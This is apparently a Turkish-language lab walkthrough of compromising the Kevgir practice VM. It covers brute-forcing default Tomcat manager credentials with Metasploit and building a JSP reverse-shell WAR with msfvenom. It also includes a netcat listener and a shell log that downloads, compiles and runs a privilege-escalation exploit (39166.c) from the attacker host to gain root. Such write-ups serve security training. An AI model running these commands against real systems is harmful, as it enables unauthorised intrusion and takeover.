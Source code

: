 

Nmap taramasın da 8080 portunda bir Tomcat sunucusu çalıştığını billiyorduk .

```
8080/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat
```

![[KevgirTomcat.png]]


Bu sayfa Tomcatin başarıyla kurulduğunu ve çalıştığını gösteren varsayılan bir sayfadır. "Manager webapp" dediğimiz de bizi bir login popup karşılamaktadır.

![[kevgir tomcat login.png]]


Bruteforce için metasploit kullanacağız . 

```
search tomcat
use 27
set RHOSTS 10.0.2.10
run
```

```
[+] 10.0.2.10:8080 - Login Successful: tomcat:tomcat
```


Tomcate giriş yaptığımıza göre shell alarak sistem içerisine sızma işlemi yapabiliriz. 

![[KevgirTomcatdeploy.png]]

Reverse shell alabilmek için `msfvenom` kullanarak .war uzantılı Java ile yazılmış bir reverse shell dosyası oluşturuyoruz.

``msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.2.15 -f war > payload.war``

Msfvenomda payloadları görmek için 

`msfvenom --list payload`
Sisteme dosyamı yüklemeden önce NetCat ile reverse shell dsoyamı oluşturduğum port adresimle(default 4444) ağı dinliyorum . 

``nc -lvnp 4444``

``python3 -c 'import pty; pty.spawn("/bin/bash")'``


---

```
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD  java/jsp_shell_reverse_tcp
PAYLOAD => java/jsp_shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 10.0.2.10
LHOST => 10.0.2.10
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run
````

```
admin@canyoupwnme:~$ wget http://10.0.2.15/39166.c 
wget http://10.0.2.15/39166.c 
--2024-10-21 15:01:41--  http://10.0.2.15/39166.c
Connecting to 10.0.2.15:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2789 (2.7K) [text/x-csrc]
Saving to: ‘39166.c’

100%[======================================>] 2,789       --.-K/s   in 0s      

2024-10-21 15:01:41 (448 MB/s) - ‘39166.c’ saved [2789/2789]

admin@canyoupwnme:~$ gcc 39166.c -o root 
gcc 39166.c -o root
admin@canyoupwnme:~$ ./root
./root
root@canyoupwnme:~# ls
ls
39166.c  39230.c  linpeas.sh  root
root@canyoupwnme:~#
```